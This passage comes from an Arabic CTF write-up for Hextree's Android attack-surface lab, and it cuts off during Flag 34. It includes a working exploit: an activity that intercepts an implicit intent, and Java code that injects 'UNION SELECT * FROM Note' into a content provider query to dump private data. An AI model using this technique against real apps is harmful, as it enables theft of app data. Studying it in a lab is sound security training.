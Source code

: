 ده بيعمل implicit intent مع action `"io.hextree.FLAG33"` وdata للـ provider الثاني

#### الحل

نفس الـ payload بتاع `flag33_1` بس هنعمل filter للـ action

```xml
<activity  
    android:name=".Providers"  
    android:exported="true" >  
    <intent-filter>        
	    <action android:name="io.hextree.FLAG33" />  
        <category android:name="android.intent.category.DEFAULT" />  
        <data android:scheme="content" android:host="io.hextree.flag33_2" />  
    </intent-filter>
</activity>
```

```java
  
Intent intent_33 = getIntent();  
if (intent_33.getAction() != null & "io.hextree.FLAG33".equals(getIntent().getAction())) {  
    Cursor cursor = getContentResolver().query(intent_33.getData(), new String[]{"name", "value", "visible"}, "_id = 2 UNION SELECT  * FROM Note", null, null);  
    if (cursor.moveToFirst()) {  
        do {  
            StringBuilder sb = new StringBuilder();  
            for (int i = 0; i < cursor.getColumnCount(); i++) {  
                if (sb.length() > 0) sb.append(", ");  
                sb.append(cursor.getColumnName(i)).append(" = ").append(cursor.getString(i));  
            }  
            Log.d("evil", sb.toString());  
        } while (cursor.moveToNext());  
    }  
}
```

### Flag 34

#### تحليل الكود

```xml
 <activity
	android:name="io.hextree.attacksurface.activities.Flag34Activity"
	android:exported="true"/>
```

الـ activity مصدّر يعني نقدر نتفاعل معاه من الـ app بتاعنا

```java
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        String stringExtra = getIntent().getStringExtra("filename");
        if (stringExtra != null) {
            prepareFlag(this, stringExtra);
            Uri uriForFile = FileProvider.getUriForFile(this, "io.hextree.files", new File(getFilesDir(), stringExtra));
            Intent intent = new Intent();
            intent.setData(uriForFile);
            intent.addFlags(3);
            setResult(0, intent);
            return;
        }
        Uri uriForFile2 = FileProvider.getUriForFile(this, "io.hextree.files", new File(getFilesDir(), "secret.txt"));
        Intent intent2 = new Intent();
        intent2.setData(uriForFile2);
```